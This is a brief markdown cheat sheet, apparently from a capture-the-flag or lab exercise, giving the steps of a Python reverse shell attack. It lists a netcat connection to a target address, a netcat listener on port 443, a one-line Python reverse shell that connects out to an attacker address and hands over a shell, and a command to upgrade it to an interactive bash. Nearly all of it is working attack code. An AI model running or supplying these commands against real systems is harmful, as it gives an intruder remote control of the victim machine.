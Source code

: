 ## Python

### Ip: 
```nc 10.10.194.240 8000```

### Listener : 

```sudo nc -lvnp 443```

### Python Reverse Shell :

```import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.128.251",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")```

### Improve the shell: 

```python3 -c 'import pty; pty.spawn("/bin/bash")'```
